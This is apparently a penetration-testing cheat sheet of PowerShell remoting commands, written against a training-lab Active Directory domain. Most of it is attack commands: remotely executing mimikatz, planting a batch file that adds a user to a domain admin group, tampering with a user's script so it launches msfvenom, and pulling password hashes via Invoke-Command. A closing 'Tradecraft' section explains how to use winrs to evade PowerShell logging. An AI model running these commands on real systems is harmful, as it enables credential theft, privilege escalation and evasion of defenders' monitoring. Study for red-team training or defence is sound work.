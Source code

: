 # Cmdlets [ Enter/New-PSSession ]
## Connect to a PS-Session of a remote user
```powershell
Enter-PSSession -Computername dcorp-adminsrv.dollarcorp.moneycorp.local
```

## Execute Stateful commands using Enter-PSSession ( persistence )
```powershell
$sess = New-PSSession -Computername dcorp-adminsrv.dollarcorp.moneycorp.local
Enter-PSSession -Session $sess

[dcorp-adminsrv.dollarcorp.moneycorp.local]:PS> $proc = Get-Process
[dcorp-adminsrv.dollarcorp.moneycorp.local]:PS> exit

Enter-PSSession -Session $sess

[dcorp-adminsrv.dollarcorp.moneycorp.local]:PS> proc
Will list current process
```

# Cmdlets [ Invoke-Command ]
## Execute Stateful commands using Invoke-Command ( persistence )
```powershell
$sess = New-PSSession -Computername dcorp-adminsrv.dollarcorp.moneycorp.local
Invoke-Command -Session $sess -ScriptBlock {$proc = Get-Process}
Invoke-Command -Session $sess -ScriptBlock {$proc.Name}
```

## Display allowed commands we can execute on remote machine
```powershell
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $cred -command {get-command}
```

## Write File using ScriptBlock
```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {Set-Content -Path 'c:\program files\Keepmeon\admin.bat' -Value 'net group site_admin awallace /add /domain'}
```

## Edit file using ScriptBlock
```powershell
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -ScriptBlock {((cat "c:\users\imonks\Desktop\wm.ps1" -Raw) -replace 'Get-Volume','cmd.exe /c c:\utils\msfvenom.exe') | set-content -path c:\users\imonks\Desktop\wm.ps1} -credential $cred
```

## Command execution using command and ScriptBlock
```powershell
Invoke-Command -computername computer-name -ConfigurationName dc_manage -credential $cred -command {whoami}
Invoke-Command -computername computer-name -ConfigurationName dc_manage -credential $cred -ScriptBlock {whoami}
Invoke-Command -computername dcorp-adminsrv.dollarcorp.moneycorp.local -command {whoami}
Invoke-Command -computername dcorp-adminsrv.dollarcorp.moneycorp.local -ScriptBlock {whoami}
```

## File execution using ScriptBlock
```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock{"C:\temp\mimikatz.exe"}
```

## File execution using FilePath
```powershell
Invoke-Command -computername dcorp-adminsrv.dollarcorp.moneycorp.local -FilePath "C:\temp\mimikatz.exe"
```

## Language Mode
```powershell
Invoke-Command -computername dcorp-adminsrv.dollarcorp.moneycorp.local -ScriptBlock {$ExecutionContext.SessionState.LanguageMode}
```

## Execute locally loaded function on the remote machines
Example : **Hello.ps1**
```powershell
function hello
{
Write-Output "Hello from the function"
}
```
Now we can load the function on our machine
```powershell
. .\Hello.ps1
```
Now we can execute the locally loaded functions 
```powershell
Invoke-Command -ScriptBlock ${function:hello} -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```

## In this case, we are passing Arguments. Keep in mind that only positional arguments could be passed this way
```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list of servers>) -ArgumentList
```

## Directly load function on the remote machines using FilePath
```powershell
$sess = New-PSSession -Computername dcorp-adminsrv.dollarcorp.moneycorp.local
Invoke-Command -FilePath "C:\temp\hello.ps1" -Session $sess
Enter-PSSession -Session $sess

[dcorp-adminsrv.dollarcorp.moneycorp.local]:PS> hello
Hello from the function
```

---

# Tradecraft
+ PowerShell remoting supports the system-wide transcripts and deep script block logging.
+ We can use **winrs** in place of **PSRemoting** to evade the logging (and still reap the benefit of 5985 allowed between hosts)
```powershell
C:\> winrs -remote:server1 -u:server1\administrator - p:Pass@1234 hostname
```
> We can also use COM objects of **WSMan** COM object - https://github.com/bohops/WSMan-WinRM
